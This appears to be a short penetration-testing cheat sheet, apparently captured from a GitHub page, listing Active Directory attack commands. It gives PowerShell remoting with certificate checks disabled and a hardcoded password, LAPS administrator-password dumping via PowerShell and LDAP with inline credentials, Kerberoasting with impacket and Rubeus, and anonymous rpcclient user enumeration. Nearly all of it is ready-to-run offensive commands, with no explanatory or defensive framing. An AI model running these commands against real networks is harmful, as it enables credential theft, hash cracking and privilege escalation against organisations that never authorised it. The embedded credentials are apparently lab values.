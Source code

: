 ### use ps remoting to invoke commands powershell 

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername dc01 -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
``` 

### LAPS dump password by computername
`Get-AdmPwdPassword -ComputerName dc01 | Select-Object Password,ExpirationTimestamp` 

### Check for LAPS passowrd w/ AD-Module
`Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` 

### Kerberoasting w/ impacket
`GetUserSPNs.py -request -dc-ip 10.10.252.24 controller.local/machine1 -outputfile hashes.kerberoast` 

### LDAP search for LAPS passwords 
`ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` 

### Enumerating users on a Windows domain with rpcclient (without credentials)

```
rpcclient -U "" -N <ip>
    rpcclient $> enumdomusers
    rpcclient $> queryuser <user_RID>
```

### Kerberoasting w/ Rubeus
`Rubeus.exe kerberoast /outfile:hashes.txt` 







